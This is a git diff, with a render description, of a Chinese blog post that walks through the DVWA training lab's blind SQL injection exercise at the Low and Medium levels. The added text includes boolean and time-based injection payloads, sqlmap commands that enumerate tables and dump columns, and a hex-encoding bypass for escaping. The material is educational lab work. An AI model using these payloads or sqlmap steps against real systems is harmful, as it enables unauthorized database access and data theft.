

Before and after one commit to HouKC/houkc.github.io, a Jekyll site: the page built from _posts/2020-11-17-dvwa7.md, in a window 1280 px wide and 1400 px high, scrolled down 2012 px. Shown: the whole window at 92% size, without its empty margins (233-1227 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; comment, search, counter and statistics services are not loaded; before the commit the page ends 2642 px from its top, so only the background shows below that; some of the changed text lies outside the part shown; grey boxes are pictures that could not be loaded.

Commit message:
update dvwa7.md

````diff
--- a/_posts/2020-11-17-dvwa7.md
+++ b/_posts/2020-11-17-dvwa7.md
@@ -31,6 +31,7 @@ $num = mysqli_fetch_row( $result )[0];
 修改为
 $num = mysqli_fetch_row( $result );
 ```
+当选择Medium、High、Impossible级别时，又需要将上面[0]修改回来。
 
 ## 0x01 Low
 #### 源码分析
@@ -64,7 +65,98 @@ if( isset( $_GET[ 'Submit' ] ) ) {
 
 ?>
 ```
-可以看到参数id没有任何过滤，就直接将用户输入插入到sql语句中，直接万能秘钥“1' or 1=1 #”即可开始注入测试。
+可以看到参数id没有任何过滤。
+
+并且当输入的id值存在与不存在，会回显不一样的前端代码，那么我们可以尝试基于布尔的盲注，通过输入注入语句使得结果为True或False时，会产生不一样的回显。
+
+当然也可以利用基于时间的盲注。
 
 
 #### 解题思路
+1、基于布尔的盲注
+判断注入点
+```
+1'		//返回错误
+1 and 1=1 	//返回正常
+1' and '1'='1	//返回正常
+```
+说明该注入为字符注入。
+可以用以下语句进行布尔盲注，其中N为数值，如115：
+```
+1' and ascii(substr(database(), 0, 1))>N #
+1' and ascii(substr(database(), 0, 1))<N #
+1' and ascii(substr(database(), 0, 1))=N #
+```
+利用上面语句，通过二分法调整N的数值以及>、<、=，就可以判断当前数据库名的第一个字符是什么；接着修改0为1，同样的步骤可以得到第二个字符，以此类推；获取表名、列名同理。
+
+但是手工逐个字符找太麻烦了，用sqlmap可以自动化完成这些步骤，具体如下。
+首先将请求包用burpsuite拦截，在id=1后加\*号，保存在request.txt文件里，然后命令行输入：
+```
+sqlmap -r request.txt --dbms="MySQL" --batch --current-db 	//查找当前数据库名，返回dvwa
+sqlmap -r request.txt --dbms="MySQL" --batch -D dvwa --tables	//查找表名，返回guestbook,users
+sqlmap -r request.txt --dbms="MySQL" --batch -D dvwa -T guestbook --columns		//查找列名，返回comment,comment_id,name
+sqlmap -r request.txt --dbms="MySQL" --batch -D dvwa -T guestbook -C "comment,name" --dump		//查看具体数据，返回数据
+```
+另外可以加参数强制指定使用布尔盲注方式：--technique B
+同时加线程参数来提高速度，最高10线程：--thread 10
+
+2、基于时间的盲注
+可以利用如下语句，原理如布尔盲注，当if语句正确时，则会sleep(3)延时3秒再返回页面，否则直接返回页面。
+
+利用返回页面的时间判断注入语句是否正常。
+```
+1' and if(ascii(substr(database(),1,1))=115, sleep(3), 1) #
+```
+同样繁复的步骤可以用sqlmap来完成，有强制指定使用时间盲注的方式：--technique T
+
+但不一样的是，时间盲注不能使用线程参数，因为需要控制延时和页面返回，如果使用多线程会导致判断出错。
+
+还可以设置时间盲注的sleep时间：--time-sec 3	这里设置为3秒，默认5秒
+```
+sqlmap -r request.txt --dbms="MySQL" --batch --technique T --current-db 	//查找当前数据库名，返回dvwa
+sqlmap -r request.txt --dbms="MySQL" --batch --technique T -D dvwa --tables	//查找表名，返回guestbook,users
+sqlmap -r request.txt --dbms="MySQL" --batch --technique T -D dvwa -T guestbook --columns		//查找列名，返回comment,comment_id,name
+sqlmap -r request.txt --dbms="MySQL" --batch --technique T -D dvwa -T guestbook -C "comment,name" --dump		//查看具体数据，返回数据
+```
+
+## 0x02 Medium
+#### 源码分析
+```php
+
+<?php
+
+if( isset( $_POST[ 'Submit' ]  ) ) {
+    // Get input
+    $id = $_POST[ 'id' ];
+    $id = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $id ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));
+
+    // Check database
+    $getid  = "SELECT first_name, last_name FROM users WHERE user_id = $id;";
+    $result = mysqli_query($GLOBALS["___mysqli_ston"],  $getid ); // Removed 'or die' to suppress mysql errors
+
+    // Get results
+    $num = @mysqli_num_rows( $result ); // The '@' character suppresses errors
+    if( $num > 0 ) {
+        // Feedback for end user
+        echo '<pre>User ID exists in the database.</pre>';
+    }
+    else {
+        // Feedback for end user
+        echo '<pre>User ID is MISSING from the database.</pre>';
+    }
+
+    //mysql_close();
+}
+
+?>
+```
+增加了mysqli_real_escape_string这个函数，该函数会对\x00,\n,\r,\,',",\x1a进行转义，并且前端页面设置了下拉菜单，必须抓包修改后再注入。
+
+由于此时是数值型注入（$id处没有单引号或双引号），不需要单引号，所以直接万能秘钥1 or 1=1 #即可，其他注入都跟Low等级一致，只需要抓包修改，不要用单引号即可。如果要用到单引号，那就用十六进制编码绕过。
+
+利用sqlmap进行盲注：
+```
+sqlmap -r request.txt --dbms "MySQL" --batch --current-db --hex		//查询当前数据库
+sqlmap -r request.txt --dbms "MySQL" --batch -D dvwa --technique B --thread 10 --tables --hex	//	查询dvwa数据库下的表名，强制指定布尔盲注，多线程10个
+```
+其中--hex为字符16进制编码，其他注入语句同Low级别，使用时间或布尔盲注都可以。
````
Also changed, not shown: other parts of _posts/2020-11-17-dvwa7.md (+1 -1 lines), _posts/2020-08-13-dvwa6.md (+1 -0 lines).
